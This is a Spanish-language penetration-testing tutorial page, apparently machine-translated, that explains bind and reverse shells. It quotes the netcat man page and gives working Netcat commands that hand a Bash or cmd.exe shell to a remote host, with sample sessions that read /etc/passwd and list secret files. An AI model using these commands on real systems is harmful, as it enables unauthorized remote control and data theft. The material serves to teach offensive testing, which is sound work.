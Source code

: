 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Invertir y vincular shells(Reverser/Bind Shells)

Un _shell_ es una utilidad (software) que actúa como interfaz entre un usuario y el sistema operativo (el kernel y sus servicios). Por ejemplo, en Linux existen varios entornos de shell, como Bash, ksh y tcsh. Tradicionalmente, en Windows el shell es el símbolo del sistema (interfaz de línea de comandos), que se invoca mediante cmd.exe. Windows PowerShell es un shell de Microsoft más nuevo que combina la antigua funcionalidad CMD con un nuevo conjunto de instrucciones de scripting/cmdlet con funcionalidad de administración del sistema integrada. Los cmdlets de PowerShell permiten a los usuarios y administradores automatizar tareas complicadas con scripts reutilizables.

**NOTA** Microsoft ha publicado una lista completa y documentación para todos los comandos de Windows compatibles; consulte [_https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands_](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands) .

Repasemos las diferencias entre los caparazones enlazado e inverso. Con un shell de enlace, un atacante abre un puerto o un escucha en el sistema comprometido y espera una conexión. Esto se hace para conectarse a la víctima desde cualquier sistema y ejecutar comandos y manipular aún más a la víctima. La Figura 8-1 ilustra un shell de enlace.

_**Figura 8-1**_ _: Un shell de enlace_

Un shell inverso es una vulnerabilidad en la que un sistema atacante tiene un oyente (puerto abierto) y la víctima inicia una conexión con el sistema atacante. La Figura 8-2 ilustra un caparazón inverso.

Muchas herramientas le permiten crear shells de enlace e inversión desde un host comprometido. Algunos de los más populares son el módulo Meterpreter en Metasploit y Netcat. Netcat es una de las mejores y más versátiles herramientas para probadores de lápiz porque es liviana y muy portátil. Incluso puede ver esto explicado en los primeros párrafos de la página de manual **de netcat** , como se muestra en el Ejemplo 8-1.

_La herramienta Netcat._

```
NAME
                 nc - TCP/IP swiss army knife

SYNOPSIS
             nc [-options] hostname port[s] [ports] ...
             nc -l -p port [-options] [hostname] [port]

DESCRIPTION
             netcat is a simple unix utility which reads and writes
data across network connections, using TCP or UDP protocol. It is
designed to be a reliable "back-end" tool that can be used directly
or easily driven by other programs and scripts. At the same time, it
is a feature-rich network debugging and exploration tool, since it can
create almost any kind of connection you would need and has several
interesting built-in capabilities. Netcat, or "nc" as the actual
program is named, should have been supplied long ago as another one
of those cryptic but standard Unix tools.

In the simplest usage, "nc host port" creates a TCP connection to the
given port on the given target host. Your standard input is then sent
to the host, and anything that comes back across the connection is
sent to your standard output. This continues indefinitely, until the
network side of the connection shuts down. Note that this behavior is
different from most other applications which shut everything down and
exit after an end-of-file on the standard input.

Netcat can also function as a server, by listening for inbound
connections on arbitrary ports and then doing the same reading and
writing. With minor limitations, netcat doesn't really care if it
runs in "client" or "server" mode -- it still shovels data back and
forth until there isn't anymore left. In either mode, shutdown can be
forced after a configurable time of inactivity on the network side.

And it can do this via UDP too, so netcat is possibly the "udp
telnet-like" application you always wanted for testing your UDP-mode
servers. UDP, asthe "U" implies, gives less reliable data transmission
than TCP connections and some systems may have trouble sending large
amounts of data that way, but it's still a useful capability to have.

You may be asking "why not just use telnet to connect to arbitrary
ports?" Valid question, and here are some reasons. Telnet has the
"standard input EOF" problem, so one must introduce calculated delays
in driving scripts to allow network output to finish. This is the
main reason netcat stays running until the network side closes.
Telnet also will not transfer arbitrary binary data, because certain
characters are interpreted as telnet options and are thus removed from
the data stream. Telnet also emits some of its diagnostic messages to
standard output, where netcat keeps such things religiously separated
from its output and will never modify any of the real data in
transit unless you really want it to. And of course, telnet is
incapable of listening for inbound connections, or using UDP instead.
Netcat doesn't have any of these limitations, is much smaller and
faster than telnet, and has many other advantages.

```

Veamos Netcat en acción. Un atacante podría usar el comando **nc -lvp 1234 -e /bin/bash** en el sistema comprometido (192.168.78.6) para crear un escucha en el puerto **1234** y ejecutar ( **-e** ) el shell Bash ( **/bin/bash** ). Esto se demuestra en el ejemplo 8-2. Netcat utiliza entrada estándar (stdin), salida estándar (stdout) y error estándar (stderr) para el socket IP.

C_reación de un shell de enlace utilizando Netcat._

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...

```

**NOTA** En los sistemas Windows, puede ejecutar la utilidad del símbolo del sistema cmd.exe con el comando **nc -lvp 1234 -e cmd.exe** Netcat.

Como se muestra en el Ejemplo 8-3, en el sistema atacante (192.168.78.147), se utiliza el comando **nc -nv 192.168.78.6 1234 para conectarse con la víctima.** Una vez que el atacante (192.168.78.147) se conecta con la víctima (192.168.78.6), se invoca el comando **ls** y se muestran tres archivos en la pantalla del atacante.

_**Ejemplo 8-3**_ _: Conexión al Bind Shell mediante Netcat_

```
root@kali:~# nc -nv 192.168.78.6 1234
(UNKNOWN) [192.168.78.6] 1234 (?) open
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
```

Cuando el atacante se conecta, el mensaje resaltado en el ejemplo 8-4 se muestra en el sistema de la víctima.

_**Ejemplo 8-4**_ _: un atacante conectado a una víctima mediante un Bind Shell_

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
connect to [192.168.78.6] from (UNKNOWN) [192.168.78.147] 52100 
```

Uno de los desafíos de usar shells de enlace es que si el sistema de la víctima está detrás de un firewall, el puerto de escucha podría estar bloqueado. Sin embargo, si el sistema de la víctima puede iniciar una conexión con el sistema atacante en un puerto determinado, se puede utilizar un shell inverso para superar este desafío.

El ejemplo 8-5 muestra cómo crear un shell inverso usando Netcat. En este caso, para crear un shell inverso, puede usar el comando **nc -lvp 666** en el sistema atacante para escuchar un puerto específico (puerto 666 en este ejemplo).

_**Ejemplo 8-5**_ _: creación de un oyente en el sistema atacante para crear un shell inverso usando Netcat_

```
root@kali:~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt 

```

Luego, en el host comprometido (la víctima), puede usar el comando **nc 192.168.78.147 666 -e /bin/bash** para conectarse al sistema atacante, como se demuestra en el Ejemplo 8-6.

_**Ejemplo 8-6**_ _: Conexión al sistema atacante (Shell inverso) mediante Netcat_

```
omar@jorel:~$ nc 192.168.78.147 666 -e /bin/bash
```

Una vez que el sistema víctima (192.168.78.6) esté conectado al sistema atacante (192.168.78.147), puede comenzar a invocar comandos, como se muestra en las líneas resaltadas en el Ejemplo 8-7.

_**Ejemplo 8-7**_ _: Ejecutar comandos en el sistema de la víctima a través de un Shell inverso_

```
root@kali:~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

<output omitted for brevity>

```
